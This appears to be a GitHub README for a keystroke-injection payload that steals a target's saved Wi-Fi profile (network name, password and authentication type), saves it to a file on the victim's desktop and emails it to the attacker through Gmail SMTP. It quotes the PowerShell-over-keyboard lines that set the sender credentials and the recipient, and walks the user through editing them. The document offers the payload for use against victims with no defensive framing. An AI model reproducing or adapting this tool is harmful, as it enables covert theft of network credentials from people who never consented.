 This payload Steals a targets Wifi profile. I.E. SSID, Passowrd and Authentication type.

Saves the profile to a text file named "Profile.txt" on the targets desktop.

Then sends the contents of Profile.txt (which contains the targets wifi profile) via a gmail to an email address of your choosing.

You must Edit the script to include a sender Gamils account creds as well as a recievers email address.

**Wifi Profile can only be sent via Gmail but can be received to any email.**  

You will need to edit the feilds for Senders and recievers email creditals.
For Senders Email go to line 101 or find this line <i><b> Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('CHANGE_THIS_GMAIL_ADDRESS@gmail.com', 'CHANGE_THIS_TO_EMAIL_PASSWORD')");</b></i> here you will need to change the text that says <b><i>CHANGE_THIS_GMAIL_ADDRESS@gmail.com</i><b/> to the gmail address the Wifi Profile is to be sent from.
Then Change the text that says <i><b>CHANGE_THIS_TO_EMAIL_PASSWORD</b></i> to the corresponding password of the email address from above.
IE: <i><b>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('johndoe.techjuvi@gmail.com', 'Password1234')")</b></i> We will also need to specify a "from" email. Find this line of code <i><b>Keyboard.print("$ReportEmail.From = 'CHANGE_TO_GMAIL_ADDRESS'");</b></i> on line 109 and edit the text <i><b>CHANGE_TO_GMAIL_ADDRESS</b></i> to the same Gmail address from above (senders Gmail).

The final change you'll need to make is to specify a Revievers Email. The line of code looks like this <i><b>Keyboard.print("$ReportEmail.To.Add('CHANGE_TO_Recievers_Email_ADDRESS')");</b></i> and can be found on line 113.

Simply change the text that says <i><b>CHANGE_TO_Recievers_Email_ADDRESS</b></i> to the email address you want to recieve the Target's WIFI Profile .





